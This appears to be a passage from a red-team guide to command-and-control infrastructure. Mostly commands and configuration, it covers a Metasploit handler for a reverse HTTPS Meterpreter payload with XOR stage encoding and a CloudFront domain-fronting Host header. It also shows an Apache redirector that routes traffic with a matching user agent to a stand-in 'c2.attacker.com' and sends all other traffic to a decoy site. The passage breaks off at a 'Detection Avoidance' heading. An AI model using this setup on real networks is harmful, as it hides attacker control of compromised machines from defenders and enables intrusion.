 ### Domain Fronting Setup
```bash
# Use AWS CloudFront for domain fronting
# 1. Register a domain and set up CloudFront distribution
# 2. Configure C2 to use Host header

# Example with Metasploit
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
set EXITFUNC thread
set EnableStageEncoding true
set StageEncoder x64/xor
set ExitOnSession false
set SessionCommunicationTimeout 0
set EnableUnicodeEncoding true
set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
set HttpHostHeader "legitimate-domain.cloudfront.net"
exploit -j
```

### Redirectors and Proxies
```bash
# Set up Apache redirector
apt install apache2
a2enmod proxy proxy_http ssl rewrite headers
cat > /etc/apache2/sites-available/redirector.conf << EOF
<VirtualHost *:443>
    ServerName redirector.example.com
    
    SSLEngine on
    SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
    SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
    
    RewriteEngine On
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows NT 10.0; Win64; x64\) AppleWebKit/537.36"
    RewriteRule ^(.*)$ https://c2.attacker.com$1 [P]
    
    RewriteRule ^(.*)$ https://legitimate-site.com$1 [P]
    
    ProxyPassReverse / https://legitimate-site.com/
    ProxyPassReverse / https://c2.attacker.com/
</VirtualHost>
EOF
a2ensite redirector
systemctl restart apache2
```

## Detection Avoidance Best Practices
